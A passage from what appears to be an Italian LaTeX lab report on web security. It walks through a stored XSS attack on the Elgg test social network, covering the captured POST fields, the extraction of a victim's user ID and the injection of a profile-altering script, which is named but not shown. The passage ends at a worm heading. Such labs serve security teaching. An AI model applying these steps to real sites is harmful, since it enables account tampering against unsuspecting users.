    
\includegraphics[width=\textwidth]{../2.WebSecurity/img/cookie_crossSite_post.png}
    \caption*{Cross-Site POST}
  \end{minipage}
\end{figure}

\section{XSS (Cross-Site Scripting)}

Per il cross-site scripting (XSS) viene utilizzato un social network fittizio chiamato Elgg, dove sono presenti delle meccaniche di profilo e di amicizia. Tramite l'uso della descrizione del profilo, è possibile sferrare degli attacchi XSS di tipo persistente all'interno del sito. 

Di default, le descrizioni dei profili sono vuote.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/XSS.png}
  \caption{Profilo Elgg}
\end{figure}

Questo è reso possibile a causa dell'assenza di filtraggio all'interno dei campi di testo all'interno del sito.

\subsection{Stored XSS Attack on POST Request}

L'obiettivo finale è quello di far apparire all'interno della descrizione del profilo dell'utente vittima la scritta "Samy is my hero" tramite l'uso di JavaScript. 

Viene usato un profilo apposito chiamato Samy.

Il primo step consiste nell'intercettare una richiesta POST per la modifica della descrizione del profilo, questo al fine di poter:
\begin{itemize}
  \item Analizzare il formato del form per inserire all'interno del payload
  \item Individuare il link a cui fare la richiesta
\end{itemize}

Per fare questo, viene utilizzato Wireshark per analizzare il traffico di rete, focalizzandoci sulle richieste e risposte di tipo HTTP.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/PostInspection.png}
  \caption{Ispezione POST con Wireshark}
\end{figure}

Da questo possiamo notare l'uso di vari campi, tra cui:
\begin{itemize}
  \item \texttt{\_\_elgg\_ts}: timestamp
  \item \texttt{\_\_elgg\_token}: token di sicurezza
  \item \texttt{guid}: user ID
  \item \texttt{description}: l'effettiva descrizione del profilo dove va inserito il campo di testo
\end{itemize}

Come meccanismo di sicurezza, inoltre, cerchiamo anche di ricavarci il nostro user ID, in modo da inserire il payload in altri profili al di fuori del soggetto che esegue l'attacco.

Per scoprire lo user ID, usiamo un secondo account e intercettiamo la richiesta di amicizia verso Samy. Da qui si può estrarre lo user ID.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/addSamy.png}
  \caption{Estrazione dello user ID}
\end{figure}

Una volta compilati tutti i campi, la richiesta XMLHttpRequest è pronta e può essere inserita all'interno del profilo. Lo script è contenuto in \texttt{script1.html}.

Visitando il profilo di Samy con il profilo precedentemente utilizzato, possiamo notare mediante l'uso di Wireshark che, oltre alla richiesta GET per recuperare le informazioni del profilo, viene effettuata una richiesta POST per recuperare i commenti.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/AttackConfirmed.png}
  \caption{Conferma dell'attacco}
\end{figure}

Visitando il nostro profilo, possiamo notare che la descrizione è stata modificata con successo.

\begin{figure}[H]
  \centering
  
\includegraphics[width=0.7\textwidth]{../2.WebSecurity/img/CharlieInfected.png}
  \caption{Profilo infettato}
\end{figure}

\subsection{Self-Propagating XSS Worm}

